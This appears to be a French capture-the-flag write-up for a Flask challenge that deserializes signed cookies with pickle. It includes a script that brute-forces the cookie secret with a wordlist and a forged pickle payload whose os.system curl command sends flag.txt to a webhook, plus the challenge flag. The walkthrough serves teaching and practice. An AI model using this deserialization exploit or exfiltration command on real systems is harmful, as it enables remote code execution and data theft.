 
# pas un bon nom

> On a trouvé le blog personnel d'un membre de l'organisation, On sait qu'il cache des infos intéressantes dans un dossier flag.txt mais on a pas réussi à accéder au fichier, on nous a dit qu'il adore les cookies typiques de Lurenberg !


## Reconnaissance

En se connectant au challenge, on tombe sur cette page nous demandant de nous identifier :

![](./home.png)

Après avoir rafraichis la page une fois, nous arrivons sur la page d'accueil.

![](./logged.png)

Par chance nous avons accès au code source, ce qui nous donne de précieuses indications de où commencer à chercher.

```python
from flask import Flask, request, make_response, render_template, send_from_directory
import hashlib
import base64
import pickle
import os
from dotenv import load_dotenv

load_dotenv()

app = Flask(__name__)
SECRET_KEY = os.environ.get('SECRET_KEY')

def sign_data(data):
    return hashlib.sha256((data + SECRET_KEY).encode()).hexdigest()

def serialize_data(data):
    return base64.b64encode(pickle.dumps(data)).decode()

def deserialize_data(data):
    return pickle.loads(base64.b64decode(data))

@app.route('/public/<path:path>')
def send_report(path):
    return send_from_directory('public', path)

@app.route('/')
def index():
    try:
        signed_cookie = request.cookies.get('signed_cookie')
        
        if signed_cookie:
            cookie_data, signature = signed_cookie.split('.')
            if hashlib.sha256((cookie_data + SECRET_KEY).encode()).hexdigest() == signature:
                result = deserialize_data(cookie_data)
                return render_template('success.html', result=result)
            else:
                return render_template('error.html', message="Signature invalide!"), 403
        else:
            initial_data = "You're either with us or against us"
            serialized_data = serialize_data(initial_data)
            signed_data = sign_data(serialized_data)
            signed_cookie_value = f"{serialized_data}.{signed_data}"
            response = make_response(render_template('welcome.html'))
            response.set_cookie('signed_cookie', signed_cookie_value)
            return response
    except Exception as e:
        return render_template('error.html', message=str(e)), 500

@app.errorhandler(404)
def page_not_found(e):
    return render_template('error.html', message="Page non trouvée!"), 404

@app.errorhandler(500)
def internal_server_error(e):
    return render_template('error.html', message="Erreur interne du serveur!"), 500

@app.errorhandler(Exception)
def handle_exception(e):
    return render_template('error.html', message="Une erreur est survenue!"), 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

On a ici quelques passages très intéressants.

L'utilisation de pickle, qui rend notre code vulnérable à l'exécution de code côté serveur au moment de la désérialisation.

```python
import pickle
```

On peut voir ici la logique de signature, sérialisation et désérialisation du cookie utilisateur. 

```python
def sign_data(data):
    return hashlib.sha256((data + SECRET_KEY).encode()).hexdigest()

def serialize_data(data):
    return base64.b64encode(pickle.dumps(data)).decode()

def deserialize_data(data):
    return pickle.loads(base64.b64decode(data))
```

Ainsi que le mécanisme de vérification de la signature du cookie.

```python
@app.route('/')
def index():
    try:
        signed_cookie = request.cookies.get('signed_cookie')
        
        if signed_cookie:
            cookie_data, signature = signed_cookie.split('.')
            if hashlib.sha256((cookie_data + SECRET_KEY).encode()).hexdigest() == signature:
                result = deserialize_data(cookie_data)
                return render_template('success.html', result=result)
            else:
                return render_template('error.html', message="Signature invalide!"), 403
        else:
            initial_data = "You're either with us or against us"
            serialized_data = serialize_data(initial_data)
            signed_data = sign_data(serialized_data)
            signed_cookie_value = f"{serialized_data}.{signed_data}"
            response = make_response(render_template('welcome.html'))
            response.set_cookie('signed_cookie', signed_cookie_value)
            return response
    except Exception as e:
        return render_template('error.html', message=str(e)), 500
```

On apprend alors :
	- Le cookie est désérialisé avec Pickle
	- La signature est la concaténation hashé en SHA256 de la donnée initiale + un secret

Partant de là on peut alors construire un script d'exploitation.

## Exploitation + Exfiltration

On peut construire un petit script d'exploitation pour essayer de chainer les vulnérabilité et extraire le flag.

Dans un premier temps, on va essayer de retrouver le secret utilisé pour signer les cookies.

```python
import requests
import hashlib
import base64
import pickle
import os
  
TARGET =  'http://127.0.0.1:5000/'
WORDLIST_PATH =  './rockyou-75.txt'

def  bruteforce_secret():
	initial_cookie = requests.get(TARGET).cookies
	signed_cookie = initial_cookie.get('signed_cookie')
	initial_data, initial_signature = signed_cookie.split('.')
  

	with  open(WORDLIST_PATH, 'r', encoding='latin-1') as f:
		wordlist = f.read().splitlines()
  
	for password in wordlist:
		signature = hashlib.sha256((initial_data + password).encode()).hexdigest()
		if signature == initial_signature:
			print("Secret key found:", password)
			return password
		print("Trying:", password)
	print("No secret key in the wordlist.")
	return  None  
  
def  main():
	secret = bruteforce_secret()
  
if  __name__  ==  '__main__':
	main()
```

Ce script récupère le cookie du challenge pour tenter de le bruteforce en local. On utilise ici la wordlist rockyou-75.txt

On exécute on retrouve bien le secret.

![](./secret.png)

Maintenant, il ne nous reste plus qu'à forger une requête qui renvoie le contenu de flag.txt vers un webhook et le tour est joué !

```python
import requests
import hashlib
import base64
import pickle
import os
  
TARGET =  'http://127.0.0.1:5000/'
WEBHOOK_URL =  'https://webhook.site/unique-id'
WORDLIST_PATH =  './rockyou-75.txt'  

class  Malicious:
	def  __reduce__(self):
		# Send flag to webhook
		command =  f'curl {WEBHOOK_URL} --data-urlencode "flag=`cat flag.txt`"'
		return (os.system, (command,))
  
def  serialize_data(data):
	return base64.b64encode(pickle.dumps(data)).decode()
  
def  bruteforce_secret():
	initial_cookie = requests.get(TARGET).cookies
	signed_cookie = initial_cookie.get('signed_cookie')
	initial_data, initial_signature = signed_cookie.split('.')  

	with  open(WORDLIST_PATH, 'r', encoding='latin-1') as f:
		wordlist = f.read().splitlines()
  
	for password in wordlist:
		signature = hashlib.sha256((initial_data + password).encode()).hexdigest()
		if signature == initial_signature:
			print("Secret key found:", password)
			return password
		print("Trying:", password)
	print("No secret key in the wordlist.")
	return  None  
  
def  final_malicious_cookie(secret):
	#forging cookie
	malicious_obj = Malicious()
	serialized_data = serialize_data(malicious_obj)
	signature = hashlib.sha256((serialized_data + secret).encode()).hexdigest()
	return  f"{serialized_data}.{signature}"
  
def  send_malicious_cookie(signed_cookie):
	#send payload to app
	cookies = {'signed_cookie': signed_cookie}
	response = requests.get(TARGET, cookies=cookies)
	return response.text
  
def  main():
	secret = bruteforce_secret()
	if secret:
		signed_cookie = final_malicious_cookie(secret)
		result = send_malicious_cookie(signed_cookie)
		print("Server response:", result)
  
if  __name__  ==  '__main__':
	main()
```

On récupère alors le flag directement dans notre webhook : 

![](./flag.png)

```ECTF{Why_4r3_w3_us1ng_cust0m_s4n1t1z4t10n?}```
